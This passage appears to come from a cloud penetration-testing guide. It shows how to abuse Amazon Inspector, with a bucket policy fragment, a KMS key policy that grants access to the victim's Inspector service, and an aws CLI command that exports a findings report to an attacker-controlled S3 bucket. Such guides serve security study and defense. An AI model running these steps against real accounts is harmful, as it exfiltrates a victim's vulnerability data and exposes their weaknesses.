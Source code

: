 ```json
        },
        "ArnLike": {
          "aws:SourceArn": "arn:aws:inspector2:us-east-1:<victim-account-id>:report/*"
        }
      }
    }
  ]
}
```

2. **Create an Amazon KMS key** and attach a policy to it in order to be usable by the victim’s Amazon Inspector:

```json
{
    "Version": "2012-10-17",
    "Id": "key-policy",
    "Statement": [
        {
	    ...
        },
        {
            "Sid": "Allow victim Amazon Inspector to use the key",
            "Effect": "Allow",
            "Principal": {
                "Service": "inspector2.amazonaws.com"
            },
            "Action": [
                "kms:Encrypt",
                "kms:Decrypt",
                "kms:ReEncrypt*",
                "kms:GenerateDataKey*",
                "kms:DescribeKey"
            ],
            "Resource": "*",
            "Condition": {
                "StringEquals": {
                    "aws:SourceAccount": "<victim-account-id>"
                }
            }
        }
    ]
}
```

3. Execute the command to **create the findings report** exfiltrating it:

```bash
aws --region us-east-1 inspector2 create-findings-report --report-format CSV --s3-destination bucketName=<attacker-bucket-name>,keyPrefix=exfiltration_,kmsKeyArn=arn:aws:kms:us-east-1:123456789012:key/1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f
```

- **Potential Impact**: Generation and exfiltration of detailed vulnerability and software reports, gaining insights into specific vulnerabilities and security weaknesses.
